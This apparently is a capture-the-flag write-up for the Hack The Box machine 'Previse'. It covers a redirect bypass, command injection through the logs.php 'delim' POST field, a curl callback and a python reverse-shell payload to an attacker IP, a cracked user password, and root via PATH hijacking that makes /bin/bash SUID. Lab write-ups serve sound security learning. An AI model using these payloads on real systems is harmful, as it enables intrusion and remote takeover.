




# HTB: Previse

## Difficulty: Easy

#### Author: canopus


### 1.) Foothold

Scanning with `nmap` reveals that the server runs SSH on port 22 and an Apache HTTP server on port 80. Let's Navigate to the website. We somehow need to find out the credentials in order to login.



We can run `gobuster` to enumerate possible directories: 

```bash
gobuster dir -u http://10.10.11.104 -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 150 -x php
```

```bash
/.hta                 (Status: 403) [Size: 277]
/.hta.php             (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]
/config.php           (Status: 200) [Size: 0]                   
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.104/css/]
/download.php         (Status: 302) [Size: 0] [--> login.php]                 
/favicon.ico          (Status: 200) [Size: 15406]                             
/files.php            (Status: 302) [Size: 6070] [--> login.php]              
/footer.php           (Status: 200) [Size: 217]                               
/header.php           (Status: 200) [Size: 980]                               
/index.php            (Status: 302) [Size: 2801] [--> login.php]              
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.104/js/] 
/login.php            (Status: 200) [Size: 2224]                              
/logout.php           (Status: 302) [Size: 0] [--> login.php]                 
/logs.php             (Status: 302) [Size: 0] [--> login.php]                 
/nav.php              (Status: 200) [Size: 1248]                              
/server-status        (Status: 403) [Size: 277]                               
/status.php           (Status: 302) [Size: 2970] [--> login.php]              
/tmp                  (Status: 200) [Size: 2617]                              
/index.php            (Status: 302) [Size: 2801] [--> login.php] 
```

We find some interesting pages that redirect to `login.php`. Let's try Intercepting the response when we request `accounts.php` in Burp.



The website doesn't redirect us immediately, it rather loads the page and then redirects. We can abuse this and tamper with the response code. Changing the response to "200 OK" 
we can bypass the redirection and access the website directly!


And we are in!


We can now try creating a user to have permanent access to the website.

We are presented with a managing page. We can also create another User for ourselves. However the interesting part is that we can navigate to FILES and download the site's backup code! 



Lets download and examine the source code. We get a bunch of `php` files.



After examining some of the source code, i came along something really, really bad in the `logs.php` file. The parsing is done by running a python script that takes an argument the delimiter we supply from a `POST` request. The thing is, that we control the contents of the request and by extension the command that will be executed. As a result we have RCE (Remote Code Execution). 

```php
// logs.php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
```

If we intercept the request and change the data inside the  `delim` field we can execute additional commands.

### 2.) Cracking the Perimeter

Proving we have RCE:
Intercepting the Submit request and using Repeater to do multiple requests, change the POST data `delim=comma+%26%26+curl+http%3a//10.10.14.2%3a8888`. When the code in `logs.php` executes this will trigger a GET request on my machine.
A `nc` listener was already running on my machine on port 8888: 


Since we got a GET request from the website, it meas we have executed code on the remote machine!

To gain an initial shell we can replace the code after the "delim" with a reverse shell command. I used a python reverse shell from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp) 

POST Data: `delim=comma+%26%26+export+RHOST%3d"10.10.14.2"%3bexport+RPORT%3d4444%3bpython+-c+'import+socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("/bin/sh")'`

A Netcat Listener needs to be setup and listen to the specified port.


### 3.) Getting User

In the source code there is also a file called `config.php` that contains the credentials for connecting to the local Database. 

Connecting using `mysql -D previse -h localhost -u root -p` and enter password when prompted. 

Basic MySQL commands here: 

- listing all databases 
- selecting previse
- listing all tables 
- selecting everything from a specific table

We find a list of hashes:

```mysql
mysql> select * from accounts;
select * from accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | admin1   | $1$🧂llol$UQb0RhzDERebjcLHQXEim. | 2021-12-24 01:27:00 |
+----+----------+------------------------------------+---------------------+
2 rows in set (0.00 sec)
mysql> 
```

We have a username `m4lwhere` and the password hash `$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.`

If we manage to crack the hash then we should be able to SSH into the machine.

After some researching i found out that `$1$` refers to the `md5crypt` algorithm. We can crack this hash using John. 

```bash
john -format=md5crypt-long -w=/usr/share/dict/rockyou.txt creds
```

Found credentials are: `m4lwhere:ilovecody112235!`

After SSH into the machine we get the user flag!

### 4.) Getting Root

The first i do when i need to elevate privileges is finding SUID binaries.

```bash
m4lwhere@previse:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/at
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping
```

Nothing out of the ordinary AFAIK. 

The next thing i do is run `sudo -l` to see what available commands i can run as root. If that fails too then the next option is [PEASS](https://github.com/carlospolop/PEASS-ng). Although judging by the output of the aforementioned command we wont need it: 

```bash
m4lwhere@previse:/opt/scripts$ sudo -l 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

It turns out that we can run the `access_backup.sh` script as root. Let's examine it. 

```bash
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

Ah, the classic "Not using absolute PATH" vulnerability. Basically the usage of the `date` command is done without specifying the absolute path of the binary and relying on the `PATH` variable to locate the binary. 

We can exploit this by prepending to the `PATH` variable a directory we control and inside placing a malicious binary called `date`. This means that when the script executes `date` it wont execute `/usr/bin/date` but rather what we place in the directory above. All this while root. 

What i like to do is making the `/bin/bash` binary SUID, so we could become root at anytime by running `/bin/bash -p`.

```bash
m4lwhere@previse:/tmp/a$ export PATH=$(pwd):$PATH
m4lwhere@previse:/tmp/a$ echo $PATH
/tmp/a:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

We prepend the directory `/tmp/a` to the `PATH` variable, and inside we place a malicious script called `date` that makes `/bin/bash` a SUID binary.

```bash
m4lwhere@previse:/tmp/a$ cat date
#!/bin/bash

chmod +s /bin/bash
```

Now when we run the  `access_backup.sh`  with sudo, our script shall be executed instead of the original `date`.

```bash
m4lwhere@previse:/tmp/a$ ls -lha /bin/bash
-rwsr-sr-x 1 root root 1.1M Jun  6  2019 /bin/bash
```

We confirm that `/bin/bash` now is a SUID binary and we can get a root shell by running `/bin/bash -p`

```bash
bash-4.4# whoami
root
bash-4.4# id
uid=1000(m4lwhere) gid=1000(m4lwhere) euid=0(root) egid=0(root) groups=0(root),1000(m4lwhere)
```

### 5.) Conclusion

- **NEVER** execute code that could possibly be controlled by an end-user, but if you have to, make sure you sanitize is properly. 
- Always use absolute paths when writing programs and if they access sensitive information make sure that they are not both executable and editable by a low privilege User. 
